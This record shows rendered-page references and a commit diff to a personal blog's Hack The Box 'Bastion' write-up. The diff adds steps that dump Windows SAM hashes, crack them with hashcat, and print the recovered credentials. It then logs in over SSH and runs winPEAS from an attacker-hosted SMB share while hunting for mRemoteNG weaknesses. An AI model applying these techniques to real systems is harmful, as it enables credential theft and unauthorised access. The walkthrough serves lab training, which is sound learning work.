

Before and after one commit to Liodeus/liodeus.github.io, a Jekyll site: the page built from _posts/2020-08-10-bastion.md, in a window 1280 px wide and 1400 px high, scrolled down 6196 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add files via upload

````diff
--- a/_posts/2020-08-10-bastion.md
+++ b/_posts/2020-08-10-bastion.md
@@ -280,7 +280,7 @@ cp Windows/System32/config/SAM /home/liodeus/Downloads/hackthebox/bastion
 cp Windows/System32/config/SYSTEM /home/liodeus/Downloads/hackthebox/bastion
 ```
 
-
+I used samdum2 tool to gest the hash file :
 
 ```
 samdump2 SYSTEM SAM
@@ -289,7 +289,7 @@ samdump2 SYSTEM SAM
 L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
 ```
 
-
+Then crack it with hascat :
 
 ```
 hashcat.exe -m 1000 -a 0 hash.txt rockyou.txt
@@ -298,7 +298,14 @@ hashcat.exe -m 1000 -a 0 hash.txt rockyou.txt
 [...]
 ```
 
+I now have credentials :
 
+```
+login : L4mpje
+password : bureaulampje
+```
+
+I remember that the SSH port was open, so I tried them there :
 
 ```
 ssh l4mpje@10.10.10.134
@@ -311,13 +318,25 @@ l4mpje@BASTION C:\Users\L4mpje>whoami
 bastion\l4mpje
 ```
 
-
+And I'm in has the user l4mpje ! It' time for some enumeration, launch smbserver for easy file transfert :
 
 ```
 sudo smbserver.py -smb2support liodeus ./
 ```
 
-Looking around install software
+I then launch winPEAS :
+
+```
+\\10.10.14.10\liodeus\winPEASx64.exe
+
+[+] Installed Applications --Via Program Files/Uninstall registry--(T1083&T1012&T1010&T1518)      T1012&T1010&T1518)
+   [?] Check if you can modify installed software https://book.hacktricks.xyz/windows/windows-local-dows/windows-local-privilege
+-escalation#software
+    C:\Program Files (x86)\mRemoteNG
+    [...]
+```
+
+That is the parts that I found interesting, mRemoteNG is not a program installed by default on a windows box. Looking around install software I found it :
 
 ```
 PS C:\Users\L4mpje\AppData\Roaming> ls
@@ -330,7 +349,7 @@ d---s-        22-2-2019     13:52                Microsoft
 d-----        22-2-2019     14:03                mRemoteNG
 ```
 
-look at mremoteNG on google (mremoteng exploit) found multiple :
+Looking the term "mRemoteNG exploit" on Google, I found multiples :
 
 ```
 password storage insecure
````
